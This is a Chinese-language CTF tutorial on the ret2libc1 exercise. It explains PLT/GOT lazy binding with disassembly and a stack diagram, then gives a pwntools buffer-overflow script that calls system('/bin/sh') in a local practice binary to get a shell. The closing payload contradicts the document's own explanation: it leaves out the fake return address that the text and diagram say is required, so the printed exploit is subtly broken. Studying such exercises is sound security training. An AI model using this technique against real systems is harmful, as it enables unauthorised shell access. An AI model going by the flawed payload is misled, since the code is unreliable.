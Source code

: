 
如上图所示，

- `.plt:08048460` 是 `system` 函数在 PLT 中的地址，编译时就已经确定，并且在程序运行时不会改变。
- `.got.plt:0804A018` 是 `system` 函数在 GOT 中的条目，在程序启动时，GOT 中的条目可能还没有被动态链接器填充。



当你调用 `system` 函数时，

1. 首先会调用`call system@plt`

2. 执行`system@plt`

```assembly
.plt:08048460  FF 25 18 A0 04 08     jmp    ds:off_804A018  ; 跳转到 GOT 中的条目
.plt:08048466  68 18 00 00 00        push    18h             ; 压入重定位索引
.plt:0804846B E9 B0 FF FF FF         jmp     sub_8048420        ; 跳转到 PLT0
```

- 如果 GOT 中的条目已经被动态链接器填充，`off_804A018` 会直接指向 `system` 函数的真实地址，成功执行函数。
- 如果 GOT 中的条目还未被填充，`off_804A018` 会指向 PLT 中的解析逻辑(从`08048466`开始继续执行)

3. 跳转执行PLT0

```assembly
.plt:08048420 FF 35 04 A0 04 08      push    ds:dword_804A004 ; 压入 GOT[1]
.plt:08048426 FF 25 08 A0 04 08      jmp     ds:dword_804A008 ; 跳转到动态链接器
```

4. 动态链接器解析 `system` 的地址：
   - 动态链接器根据重定位索引（`18h`）和 GOT[1] 的值，找到 `system` 函数的真实地址。
   - 动态链接器将 `system` 的地址写入 GOT 中的条目（`off_804A018`）。

5. 跳转到 `system` 的真实地址，并且后续程序再次跳转到 `system@plt` 时，`jmp ds:off_804A018` 会直接跳转到 `system` 函数的真实地址。



这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以 `'bbbb'` 作为虚假的地址，其后参数对应的参数内容。

```
|-------------------|
|    /bin/sh 地址   |  <- system 的参数 (arg1)
|-------------------|
|    虚假返回地址   |  <- system 的返回地址 (可以是任意值，如 'bbbb')
|-------------------|
|    system 地址    |  <- 覆盖的返回地址，跳转到 system 函数
|-------------------|
|    垃圾数据       |  <- 填充缓冲区，覆盖栈空间
|-------------------|
```



```python
from pwn import *
p=process("./ret2libc1")
system_plt=0x08048460
#填system函数在PLT中的地址，因为PLT表编译时就已经确定，并且在程序运行时不会改变，
#若GOT表未初始化，PLT会自动调用动态链接器找到函数真实地址，
#填入GOT表并调用函数
binsh=0x08048720

payload=flat([b'a'*112,system_plt,binsh])
p.sendline(payload)
p.interactive()
```

